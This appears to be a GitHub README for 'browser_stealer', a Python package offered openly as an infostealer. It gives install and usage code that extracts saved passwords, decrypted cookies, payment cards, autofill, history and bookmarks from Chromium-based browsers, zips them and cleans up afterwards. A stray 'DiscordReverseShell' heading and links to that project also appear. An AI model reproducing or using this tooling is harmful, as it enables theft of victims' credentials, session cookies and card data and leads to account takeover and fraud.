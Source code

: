 <!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
</p>
  
<p align="center">
  <img src="https:\\img.shields.io\github\languages\top\Josakko\browser_stealer" </a>
  <img src="https:\\img.shields.io\github\last-commit\Josakko\browser_stealer" </a>
  <img src="https:\\img.shields.io\github\stars\Josakko\browser_stealer" </>
  <img src="https:\\img.shields.io\github\forks\Josakko\browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">DiscordReverseShell</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
</h4>

```
pip install browser_stealer
```

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%BROWSER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%BROWSER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%BROWSER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
